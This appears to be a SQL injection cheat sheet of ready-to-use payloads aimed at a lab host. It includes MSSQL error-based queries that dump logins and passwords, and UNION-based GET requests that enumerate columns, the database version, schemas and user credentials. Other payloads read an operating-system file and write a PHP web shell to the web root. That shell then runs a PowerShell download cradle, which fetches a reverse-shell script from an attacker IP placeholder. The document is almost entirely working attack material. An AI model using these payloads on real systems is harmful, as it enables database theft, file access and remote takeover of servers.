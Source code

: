 ',convert(int,(select alogin,psw FROM archive WHERE table_name='pmanager' FOR XML PATH(''))))--
',convert(int,(select cast(concat(alogin,0x3a,0x3a,psw,0x0a) as varchar(8000)) from archive.dbo.pmanager FOR XML PATH(''))))--

// SQLi via GET Querystring
# Enumerate number of columns web app returns; increment final 1 to 2,3,4,etc. to see max col returned
http://192.168.131.10/debug.php?id=1 ORDER BY 1
# Enumerate OS User running DB & DB Version
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,user(),@@version
# Enumerate All Databases' Tables and their respective columns
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,table_name,column_name FROM information_schema.columns
# Enumerate users table column names and their datatypes if web app only returns 2 columns from SQL table and not the first column
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,column_name,data_type FROM information_schema.columns WHERE table_name='users'
# Enumerate All Users & their Passwords from 'users' table
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,username,password FROM users
# Read File from Underlying OS
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,2,load_file('C:/Windows/System32/drivers/etc/hosts')
# Write File to Underlying OS to Establish Shell Access
http://192.168.131.10/debug.php?id=1 UNION SELECT 1,2,"<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/backdoor.php'
http://192.168.131.10/backdoor.php?cmd=powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://<ATTACKER-IP>/revshell.bat'))"

// SQL INJECTION: STEPS
# 1. Determine Number of Columns; search= is where the SQL Injection attack surface is.
http://192.168.131.10:9090/search?search=') UNION ORDER BY 1--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 2--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 3--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 4--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 5--
http://192.168.131.10:9090/search?search=') UNION ORDER BY 6--  // ERROR OCCURS!!! Max columns are 5
